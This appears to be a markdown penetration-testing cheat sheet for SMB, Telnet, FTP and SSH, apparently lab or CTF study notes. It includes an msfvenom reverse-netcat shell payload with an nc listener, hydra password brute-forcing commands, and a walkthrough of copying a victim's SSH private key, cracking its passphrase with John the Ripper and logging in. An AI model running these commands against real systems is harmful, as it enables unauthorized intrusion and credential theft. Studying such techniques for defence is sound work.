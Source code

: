 # Network Services

## SMB - Server Message Block Protocol -  
[SMB](https://searchnetworking.techtarget.com/definition/Server-Message-Block-Protocol) is a client-server communication protocol used for sharing access to files, printers, serial ports and other resources on a network.   

### Enumerating SMB
- Port Scanning
    nmap 
- Enum4Linux
    `enum4linux [options] [ip]`  
    `-U` get userlist  
    `-M` get machine list  
    `-N` get namelist dump (different from -U and-M)  
    `-S` get sharelist  
    `-P` get password policy information  
    `-G` get group and member list  
    `-a` all of the above (full basic enumeration)  

### Exploiting SMB
While there are vulnerabilities such as [CVE-2017-7494](https://www.cvedetails.com/cve/CVE-2017-7494/) that can allow remote code execution by exploiting SMB, you're more likely to encounter a situation where the best way into a system is due to misconfigurations in the system.  
- SMBClient
    `smbclient //[IP]/[SHARE]`  
    `-U [name]` : to specify the user  
    `-p [port]` : to specify the port  

## Telnet
Telnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server.  
`telnet [ip] [port]`  

### Exploiting Telnet
- https://www.cvedetails.com/
- https://cve.mitre.org/  
However, you're far more likely to find a misconfiguration in how telnet has been configured or is operating that will allow you to exploit it.  
`sudo tcpdump ip proto \\icmp -i tun0`  
`"msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"`  
`"nc -lvp [listening port]"`  

## FTP - File Transfer Protocol -
FTP is a protocol used to allow remote transfer of files over a network.  
A typical FTP session operates using two channels:
- a command (sometimes called the control) channel
- a data channel.  

The FTP server may support either Active or Passive connections, or both.  
- In an Active FTP connection, the client opens a port and listens. The server is required to actively connect to it. 
- In a Passive FTP connection, the server opens a port and listens (passively) and the client connects to it.   

### Exploiting FTP
#### hydra
`hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp`  
`hydra` Runs the hydra tool  
`-t 4`  Number of parallel connections per target    
`-l [user]` Points to the user who's account you're trying to compromise  
`-P [path to dictionary]`   Points to the file containing the list of possible passwords  
`-vV`   Sets verbose mode to very verbose, shows the login+pass combination for each attempt  
`[machine IP]`  The IP address of the target machine  
`ftp / protocol`    Sets the protocol  

## SSH
### Exploiting SSH
#### Crack SSH Password with hydra  
`hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ssh`  

#### Crack SSH Private Key with John the Ripper
SSH Key-Based Autherntication
1. RSA-Private-key is in .ssh derectory. (id_rsa)
```
victim@target:~/.ssh$ ls -la

total 16
drwx------ 2 nullbyte nullbyte 4096 2019-06-19 13:49 .
drwxr-xr-x 3 nullbyte nullbyte 4096 2019-06-19 13:46 ..
-rw------- 1 nullbyte nullbyte 1743 2019-06-19 13:49 id_rsa
-rw-r--r-- 1 nullbyte nullbyte  405 2019-06-19 13:49 id_rsa.pub
```  
2. `cat id_rsa` and copy, `nano victim_rsa` and paste.
3. Crack the Private Key.  
    `$ python3 /usr/share/john/ssh2john.py victim_rsa > rsa.hash`  
    `$ john --wordlist=/usr/share/wordlists/rockyou.txt rsa.hash`
    <details>
    ```
    $ john --wordlist=/usr/share/wordlists/rockyou.txt rsa.hash
    Using default input encoding: UTF-8
    Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
    Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
    Cost 2 (iteration count) is 1 for all loaded hashes
    Press 'q' or Ctrl-C to abort, almost any other key for status
    beeswax          (id_rsa)
    1g 0:00:00:00 DONE (2023-07-27 15:52) 16.66g/s 1378Kp/s 1378Kc/s 1378KC/s beeswax
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed.
    ```
    </details>  

    `$ john --show rsa.hash`  
4. SSH into the Target.  
    `$ chmod 600 victim_rsa`  
    `$ ssh -i victim_rsa victim@<TARGET_IP>`  
    Enter passphrase. (in this case "beeswax")  






